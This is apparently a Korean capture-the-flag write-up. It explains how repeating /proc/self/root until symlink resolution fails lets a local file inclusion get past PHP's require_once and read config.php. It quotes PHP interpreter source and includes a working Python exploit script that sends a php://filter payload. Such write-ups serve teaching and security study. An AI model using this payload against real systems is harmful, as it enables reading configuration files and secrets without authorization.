


+ summary

symbolic link trick을 이용한 require_once 우회하여 LFI

## 문제 풀이

해당 문제는 index.php 소스코드를 살펴보면, $_GET['page'] 파라미터가 존재합니다.



웹 해킹 지식이 있다면, Local File Inclusion 취약점을 유도하는 것으로 보입니다.

flag는 config.php 파일 내부에 있는 것으로 파악되기 때문에, 아래와 같은 방법으로 시나리오가 그려집니다.



1. PHP Wrapper을 통한 ``php://filter/convert-base64.encode/resource=`` 페이로드 사용
2. LFI2RCE via PHP Filters을 이용하여 RCE 후 ``cat config.php`` flag 수집.

그러나, 1,2 둘 다, 이미 파일을 REQUIRE 했거나, ICONV 필터링으로 인해 어렵습니다. 때문에, require_once를 분석하면

실제 php-src에서는, zend_include_or_eval 함수로 연결되며, 최종 경로를 확보하기 위해, zend_resolve_path 함수를 사용합니다.

여기에서 취약점 발생 시나리오를 하나 생각해볼 수 있습니다.

1. zend_resolve_path(inc_filename) 함수의 결과가 null이 나와, else로 이동하여 ``zend_string_copy(inc_filename)`` 그대로 복사.

2. inc_filename의 조건은, 파일 경로가 일치하지 않아야 하지만, 실제로 경로가 맞아야 되는 경우.

```php
# php-src/Zend/zend_execute.c
static zend_never_inline zend_op_array* ZEND_FASTCALL zend_include_or_eval(zval *inc_filename_zv, int type) /* {{{ */
{
	# ... 생략 ...

	switch (type) {
		case ZEND_INCLUDE_ONCE:
		case ZEND_REQUIRE_ONCE: {
				zend_file_handle file_handle;
				zend_string *resolved_path;

				resolved_path = zend_resolve_path(inc_filename); # null이 나오는 경우
				if (EXPECTED(resolved_path)) {
					if (zend_hash_exists(&EG(included_files), resolved_path)) {
						new_op_array = ZEND_FAKE_OP_ARRAY;
						zend_string_release_ex(resolved_path, 0);
						break;
					}
				} else if (UNEXPECTED(EG(exception))) {
					break;
				} else if (UNEXPECTED(zend_str_has_nul_byte(inc_filename))) {
					zend_message_dispatcher(
						(type == ZEND_INCLUDE_ONCE) ?
							ZMSG_FAILED_INCLUDE_FOPEN : ZMSG_FAILED_REQUIRE_FOPEN,
							ZSTR_VAL(inc_filename));
					break;
				} else {
					resolved_path = zend_string_copy(inc_filename); # else 부분 실행
				}

				zend_stream_init_filename_ex(&file_handle, resolved_path);
				if (SUCCESS == zend_stream_open(&file_handle)) { # zend_stream_open으로 함수 오픈

					if (!file_handle.opened_path) {
						file_handle.opened_path = zend_string_copy(resolved_path);
					}

					if (zend_hash_add_empty_element(&EG(included_files), file_handle.opened_path)) { # once 중복 처리를 위해 hash 추가.
						new_op_array = zend_compile_file(&file_handle, (type==ZEND_INCLUDE_ONCE?ZEND_INCLUDE:ZEND_REQUIRE));
					} else {
						new_op_array = ZEND_FAKE_OP_ARRAY;
					}
				} else if (!EG(exception)) {
					zend_message_dispatcher(
						(type == ZEND_INCLUDE_ONCE) ?
							ZMSG_FAILED_INCLUDE_FOPEN : ZMSG_FAILED_REQUIRE_FOPEN,
							ZSTR_VAL(inc_filename));
				}
				zend_destroy_file_handle(&file_handle);
				zend_string_release_ex(resolved_path, 0);
			}
			break;
		# ... 생략 ... 
	}

    # ... 생략 ... 
}
/* }}} */
```

실제로 리눅스에서는 ``"/proc/self/root"*23 + "/var/www/html/index.html"`` 이렇게 경로를 읽으려고 하는 경우, ELOOP(Too many levels of symbolic links) 에러가 발생 됩니다.

때문에, 실제로는 존재하는 경로지만, 에러 발생으로 인해 존재하지 않는 경로로 인식될수도 있다는 것입니다.

이러한 방식을 통해 아래와 같이 페이로드를 주입합니다.

```py
from base64 import b64encode, b64decode
import requests
import re

host = "172.24.218.139"
port = "10004"

url = f"http://{host}:{port}"

result = requests.get(url, params={"page":f"php://filter/convert.base64-encode/resource={'/proc/self/root'*40}/var/www/html/config"})

flag = re.findall(f"{b64encode('<?php'.encode()).decode()[:-1]}.*", result.text)

print(result.text)

assert len(flag) == 1

print(b64decode(flag[0]))
```